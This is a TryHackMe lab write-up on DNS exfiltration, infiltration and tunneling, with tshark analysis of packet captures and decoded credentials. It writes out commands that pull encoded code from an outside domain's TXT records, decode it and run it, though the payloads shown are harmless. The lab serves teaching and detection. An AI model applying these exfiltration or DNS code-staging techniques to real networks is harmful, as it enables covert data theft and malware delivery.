

# DNS Manipulation

**Date:** 17, May, 2021

**Author:** Dhilip Sanjay S

---

[Click Here](https://tryhackme.com/room/dnsmanipulation) to go to the TryHackMe room.


## Introduction

- Techniques used to exfiltrate and infiltrate data.
- Client machine reaches out to a DNS server to resolve a Fully Qualified Domain Name (FQDN) to an IP address.
- DNS is being used as a **Data Exfiltration** and **Data Infiltration** tool via DNS queries.
- DNS Tunneling and how it is used to **tunnel** different protocols like (HTTP) through DNS.

---

## What is DNS?

- Domain Name System refers to a naming system that resolves domain names with IP addresses.

### If you were on Windows, what command could you use to query a txt record for 'youtube.com'?
- **Answer:** nslookup -type=txt youtube.com


### If you were on Linux, what command could you use to query a txt record for 'facebook.com'?
- **Answer:** dig facebook.com TXT

### AAAA stores what type of IP Address along with the hostname?
- **Answer:** IPv6

### Maximum characters for a DNS TXT Record is 256. (Yay/Nay)
- **Answer:** Nay (It is 255 characters)

### What DNS Record provides a domain name in reverse-lookup? 
- **Answer:** PTR

### What would the reverse-lookup be for the following IPv4 Address? (192.168.203.2)
- **Answer:** 2.203.168.192.in-addr.arpa
- **Steps to Reproduce:** 

```bash
$ nslookup -type=PTR 192.168.203.2
Server:		106.51.113.29
Address:	106.51.113.29#53

** server cant find 2.203.168.192.in-addr.arpa: NXDOMAIN
```

---

## DNS Exfiltration

- **DNS Exfiltration** is a cyberattack on servers via the DNS, which can be performed manually or automatically.
    -  In a **manual** scenario, attackers often gain unauthorized physical access to the targeted device to extract data from the environment. 
    - In **automated DNS exfiltration**, attackers use malware to conduct the data exfiltration while inside the compromised network.



- DNS is a service that will usually be available on a target machine and allowing outbound traffic typically over TCP or UDP port 53. This makes **DNS a prime candidate for hackers to use for exfiltrating data**.

- **Data Exfiltration**
    - Data exfiltration through DNS could allow an attacker to transfer a large volume of data from the target environment. 
    - Moreover, DNS exfiltration is mostly used as a pathway to gather personal information such as social security numbers, intellectual property, or other personally identifiable information.

- **How it's done?**
    - DNS exfiltration is mostly used by adding strings containing the desired **'loot'** to DNS UDP requests. 
    - The string containing the loot would then be sent to a **rogue DNS server** that is logging these requests. 
        - To the untrained eye this could look like normal DNS traffic or these requests could be lost in the shuffle of many legit DNS requests.

### What is the maximum length of a DNS name?
- **Answer:** 253 (Length includes dots)
    - This limits how much data we can exfiltrate in a single request! 

---

## DNS Exfiltration Practice - Orderlist

- Login into the machine and check the task file in order folder:

```bash
$ ssh user@10.10.47.165
The authenticity of host '10.10.47.165 (10.10.47.165)' can't be established.
ECDSA key fingerprint is SHA256:t/AngHz/N9sXqytgBiSq5vkmKrJaxoXgHyGRx1CdQjI.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.47.165' (ECDSA) to the list of known hosts.
user@10.10.47.165's password: 
Welcome to Ubuntu 16.04.7 LTS (GNU/Linux 4.4.0-186-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

86 packages can be updated.
63 updates are security updates.

Last login: Fri Feb 26 10:47:05 2021

user@user1:~$ ls
challenges  dns-exfil-infil  tshark-capture.instructions
user@user1:~$ cd challenges/
user@user1:~/challenges$ ls
exfiltration  infiltration
user@user1:~/challenges$ cd exfiltration/
user@user1:~/challenges/exfiltration$ ls
identify  orderlist
user@user1:~/challenges/exfiltration$ cd orderlist/
user@user1:~/challenges/exfiltration/orderlist$ ls
order.pcap  TASK
user@user1:~/challenges/exfiltration/orderlist$ cat TASK 
The order.pcap file has suspecious queries. Use the ~/dns-exfil-infil/packetyGrabber.py to decode
the data and answer the questions accrodingly.

IDENTIFY THE DOMAIN NAME USED TO EXFILTRATE DATA
use the following command to see all DNS Queries
tshark -r order.pcap -T fields -e dns.qry.name
(ignore the .localdomain part)

Use the packetyGrabber.py located in ~/dns-exfil-infil/ folder to decode the DNS queries to a plain-text file.
python3 ~/dns-exfil-infil/packetyGrabber.py

IGNORE THE EXCEPTION THROWN AT THE END OF SCRIPT
```

- Check all the dns queries:

```bash
user@user1:~/challenges/exfiltration/orderlist$ tshark -r order.pcap -T fields -e dns.qry.name

8.8.8.8.in-addr.arpa
.
.
8.8.8.8.in-addr.arpa
g3KvmYb7QTUtBwLWHzLVvci.badbaddoma.in.localdomain
g3KvmYb7QTUtBwLWHzLVvci.badbaddoma.in.localdomain
g3KvmYb7QTUtBwLWHzLVvci.badbaddoma.in.localdomain
g3KvmYb7QTUtBwLWHzLVvci.badbaddoma.in.localdomain
g3KvmYb7QTUtBwLWHzLVvci.badbaddoma.in
g3KvmYb7QTUtBwLWHzLVvci.badbaddoma.in
g3KvmYb7QTUtBwLWHzLVvci.badbaddoma.in
.
.
.
h9JNrq5zMfnLyncog.badbaddoma.in
.
.
```

- The domain name used to EXFILTRATE data: **badbaddoma.in**
- Run `packetyGrabber.py` to decode the data in pcap file:

```bash
user@user1:~/challenges/exfiltration/orderlist$ python3 ~/dns-exfil-infil/packetyGrabber.py 
File captured: order.pcap
Filename output: order.txt
Domain Name (Example: badbaddoma.in): badbaddoma.in
[+] Domain Name set to badbaddoma.in
[+] Filtering for your domain name.
[+] Base58 decoded.
[+] Base64 decoded.
[+] Output to order.txt
Exception ignored in: <bound method BaseEventLoop.__del__ of <_UnixSelectorEventLoop running=False closed=True debug=False>>
Traceback (most recent call last):
  File "/usr/lib/python3.5/asyncio/base_events.py", line 431, in __del__
  File "/usr/lib/python3.5/asyncio/unix_events.py", line 58, in close
  File "/usr/lib/python3.5/asyncio/unix_events.py", line 139, in remove_signal_handler
  File "/usr/lib/python3.5/signal.py", line 47, in signal
TypeError: signal handler must be signal.SIG_IGN, signal.SIG_DFL, or a callable object

user@user1:~/challenges/exfiltration/orderlist$ ls
order.pcap  order.txt  TASK

user@user1:~/challenges/exfiltration/orderlist$ cat order.txt
DATE	ORDER-ID	TRANSACTION	PRICE	   CODE
01-06	   1		Network Equip.	$2349.99    -
01-09	   2		Software Licen. $1293.49    -
01-11	   3		Physical Secur.	$7432.79    -
02-06	   4		SENT TO #1056..	$15040.23   -
02-06	   5		1M THM VOUCHER  $10	       zSiSeC
02-06	   6		Firewall	    $2500	    -
```

### ORDER-ID: 1, What is the Transaction name?
- **Answer:** Network Equip.

### TRANSACTION: Firewall, How much was the Firewall?
- **Answer:** 2500

---

## DNS Exfiltration Practice - identity

- Check the task file in the identity folder:

```bash
user@user1:~/challenges/exfiltration$ cd identify/
user@user1:~/challenges/exfiltration/identify$ ls
cap1.pcap  cap2.pcap  cap3.pcap  TASK  TASK1.save
user@user1:~/challenges/exfiltration/identify$ cat TASK
Steps on how to solve this task:
1. Identify which file contains the suspicious dns queries.
2. Identify what domain name was used to exfiltrate the data.
( You can use tshark to filter the dns query name )
( Google how to filter dns query names with tshark )
3. Run ~/dns-exfil-infil/packetyGrabber.py and put the correct inputs in.

If you do everything correctly you will be able to answer the last 2 questions.
user@user1:~/challenges/exfiltration/identify$ cat TASK1.save 
The order.pca
```

### Which file contains suspicious DNS queries? 
- **Answer:** cap3.pcap
- **Steps to Reproduce:** 

```bash
user@user1:~/challenges/exfiltration/identify$ tshark -r cap1.pcap -T fields -e dns.qry.name
google.com
google.com
google.com
google.com
youtube.com
youtube.com
video1.youtube.com
video1.youtube.com
video1.youtube.com
video1.youtube.com
video2.cloudflare.com
video2.cloudflare.com
video2.cloudflare.com
video2.cloudflare.com
github.com
github.com
github.com
github.com
facebook.com
facebook.com
facebook.com
facebook.com
tryhackme.com
tryhackme.com
tryhackme.com
tryhackme.com
reddit.com
reddit.com
reddit.com
reddit.com
user@user1:~/challenges/exfiltration/identify$ tshark -r cap2.pcap -T fields -e dns.qry.name
6.googlevideo.com
6.googlevideo.com
6.googlevideo.com
6.googlevideo.com
user@user1:~/challenges/exfiltration/identify$ tshark -r cap3.pcap -T fields -e dns.qry.name

g5SUFQJi3BgPBgh2jYe5Vhm.badbaddoma.in
g5SUFQJi3BgPBgh2jYe5Vhm.badbaddoma.in

uuhYFkMJxQsVeFSmCrxtyke.badbaddoma.in
uuhYFkMJxQsVeFSmCrxtyke.badbaddoma.in

pDG6RsCnrcFxCWEGji.badbaddoma.in
pDG6RsCnrcFxCWEGji.badbaddoma.in
```

### Enter the plain-text after you have decoded the data using packetyGrabber.py found in ~/dns-exfil-infil/ folder.
- **Answer:** administrator:s3cre7P@ssword
- **Steps to Reproduce:** 

- The domain name used to EXFILTRATE data: `badbaddoma.in`
- Run `packetyGrabber.py` to decode the data in cap3.pcap file:

```bash
user@user1:~/challenges/exfiltration/identify$ python3 ~/dns-exfil-infil/packetyGrabber.py 
File captured: cap3.pcap
Filename output: identity.txt
Domain Name (Example: badbaddoma.in): badbaddoma.in
[+] Domain Name set to badbaddoma.in
[+] Filtering for your domain name.
[+] Base58 decoded.
[+] Base64 decoded.
[+] Output to identity.txt
Exception ignored in: <bound method BaseEventLoop.__del__ of <_UnixSelectorEventLoop running=False closed=True debug=False>>
Traceback (most recent call last):
  File "/usr/lib/python3.5/asyncio/base_events.py", line 431, in __del__
  File "/usr/lib/python3.5/asyncio/unix_events.py", line 58, in close
  File "/usr/lib/python3.5/asyncio/unix_events.py", line 139, in remove_signal_handler
  File "/usr/lib/python3.5/signal.py", line 47, in signal
TypeError: signal handler must be signal.SIG_IGN, signal.SIG_DFL, or a callable object

user@user1:~/challenges/exfiltration/identify$ ls
cap1.pcap  cap2.pcap  cap3.pcap  identity.txt  TASK  TASK1.save

user@user1:~/challenges/exfiltration/identify$ cat identity.txt 
administrator:s3cre7P@ssword
```

---

## DNS Infiltration

- DNS infiltration defines the process where malicious code is ran to manipulate DNS servers either using automated systems where attackers connect remotely to the network infrastructure or manually.


- **Use case**
    - DNS infiltration is primarily used for **file dropping** or **malware staging** efforts. With behavioral, signature based, or reputation based threat detection systems it's possible this attack method could be caught.
    - However, if this method of transporting data goes unnoticed it could lead to malicious activity such as code execution in organization's environment. Historically, this has cased havoc and disruption for various well known companies.
- DNS protocol could be used as a **covert protocol** that could aid in **malware staging and execution** efforts to communicate back to an attacker's C2 (Command and Control) server/s. 

- **Demo**

```bash
$ nslookup -type=txt rt1.badbaddoma.in | grep Za | cut -d \" -f2 > mal.py

$ python3 ~/dns-exfil-infil/packetySimple.py 
Filename: mal.py
[+] Reading from file...
[+] Base58 decoded.
[+] Base64 decoded.
[+] Done, mal.py is decoded.

$ ls
mal.py

$ cat mal.py 
while True: print("maLwAre CoDe")
```

---

## DNS Infiltration - Practice

- Check the task file:

```bash
user@user1:~/challenges/infiltration$ cat TASK 
For this TASK we will be requesting a TXT Record from my public domain name.
Here is the information needed to complete this challenge:

My Domain Name: badbaddoma.in
Request TXT Record from this subdomain: code
Save the text value to a python file
Run the ~/dns-exfil-infil/packetySimple.py to decode the text
Run the program: python3 [your-file-name].py
Take a note of the output and answer the question in the "DNS Infiltration - Practice" section.
```

### Enter the output from the executed python file
- **Answer:** 4.4.0-186-generic
- **Steps to Reproduce:** 

- Request the TXT Record for `code.badbaddoma.in`.
- Store the required data in the file using `grep` and `cut`.

```bash
user@user1:~/challenges/infiltration$ nslookup -type=TXT code.badbaddoma.in
Server:		10.0.0.2
Address:	10.0.0.2#53

Non-authoritative answer:
code.badbaddoma.in	text = "YeeTbunLbACdXq193g6VHXRuDQ9Y1upaAzA3UkpCr8yBBE68JEXU32wxNE44"

Authoritative answers can be found from:

user@user1:~/challenges/infiltration$ nslookup -type=TXT code.badbaddoma.in | grep Yee | cut -d \" -f2 > bad.py

user@user1:~/challenges/infiltration$ cat bad.py 
YeeTbunLbACdXq193g6VHXRuDQ9Y1upaAzA3UkpCr8yBBE68JEXU32wxNE44

user@user1:~/challenges/infiltration$ python3 ~/dns-exfil-infil/packetySimple.py
Filename: bad.py
[+] Reading from file...
[+] Base58 decoded.
[+] Base64 decoded.
[+] Done, bad.py is decoded.

user@user1:~/challenges/infiltration$ cat bad.py 
import os; print(os.uname()[2])

user@user1:~/challenges/infiltration$ python3 bad.py 
4.4.0-186-generic
```

---

## DNS Tunneling

- Companies will typically have **Firewalls**, an **IDSs (Intrusion Detection Systems)** and/or and **IPSs (Intrusion Protection Systems)** in place in order prevent/alert when unwanted inbound and outbound protocols pass through their network.
- The one protocol that is rarely monitored by companies is DNS. Because of this, hackers are able to *bypass* a lot of the **unwanted protocols** by using **DNS tunneling**.


- **Using Iodine**
    - iodine - Client
    - iodined - Server

- To learn more about iodine - [Click here](https://github.com/yarrick/iodine)

---

## References
- [DNS Root Servers](https://www.cloudflare.com/learning/dns/glossary/dns-root-server/)
- [DNS Root Servers - List](https://www.iana.org/domains/root/servers)
- [DNS Zone](https://www.cloudflare.com/learning/dns/glossary/dns-zone/)
- [Recursive DNS](https://www.cloudflare.com/en-in/learning/dns/what-is-recursive-dns/)
- [DNS Records](https://www.cloudflare.com/learning/dns/dns-records/)
- [Base 58 Encoding](https://tools.ietf.org/id/draft-msporny-base58-01.html)

## Tools
- [DNS - Exfil - Infil](https://github.com/kleosdc/dns-exfil-infil)
- [Iodine - Tunnel IPv4 data through a DNS server](https://code.kryo.se/iodine/)
- [Iodine - Github](https://github.com/yarrick/iodine)